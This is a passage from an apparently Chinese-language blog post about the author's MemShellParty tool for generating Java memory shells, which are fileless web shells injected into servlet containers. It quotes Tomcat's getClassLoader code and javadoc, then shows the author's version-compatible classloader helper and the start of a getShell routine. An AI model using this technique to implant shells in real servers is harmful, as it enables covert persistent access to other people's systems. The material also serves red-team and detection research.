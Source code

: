 ```java
@Override
public ClassLoader getClassLoader() {
    ClassLoader result = context.getLoader().getClassLoader();
    if (Globals.IS_SECURITY_ENABLED) {
        ClassLoader tccl = Thread.currentThread().getContextClassLoader();
        ClassLoader parent = result;
        while (parent != null) {
            if (parent == tccl) {
                break;
            }
            parent = parent.getParent();
        }
        if (parent == null) {
            System.getSecurityManager().checkPermission(
                    new RuntimePermission("getClassLoader"));
        }
    }

    return result;
}
```

而且这个居然是 @Override 修饰的，所有肯定 Servlets 规范规定了什么东西。直接看接口文档，是获取与应用相关联的 ClassLoader，不过 Servlet 3.0 才有，意味着我的超强兼容性的内存马生成工具 [MemShellParty](https://github.com/ReaJason/MemShellParty) 指定不能直接调用了，if else 一下。

```java
// ServletContext
/**
 * Get the web application class loader associated with this ServletContext.
 *
 * @return The associated web application class loader
 *
 * @throws UnsupportedOperationException    If called from a
 *    {@link ServletContextListener#contextInitialized(ServletContextEvent)}
 *    method of a {@link ServletContextListener} that was not defined in a
 *    web.xml file, a web-fragment.xml file nor annotated with
 *    {@link javax.servlet.annotation.WebListener}. For example, a
 *    {@link ServletContextListener} defined in a TLD would not be able to
 *    use this method.
 * @throws SecurityException if access to the class loader is prevented by a
 *         SecurityManager
 * @since Servlet 3.0
 */
public ClassLoader getClassLoader();
```

## ServletContext#getClassLoader

有了这个之后，我们的内存马 defineClass 就改成了如下方式：

```java
// Servlet 高版本直接使用 getClassLoader 方法，低版本就反射调用具体方法。
private ClassLoader getWebAppClassLoader(Object context) {
    try {
        return ((ClassLoader) invokeMethod(context, "getClassLoader", null, null));
    } catch (Exception e) {
        Object loader = invokeMethod(context, "getLoader", null, null);
        return ((ClassLoader) invokeMethod(loader, "getClassLoader", null, null));
    }
}

@SuppressWarnings("all")
private Object getShell(Object context) throws Exception {
    ClassLoader webAppClassLoader = getWebAppClassLoader(context);
    try {
```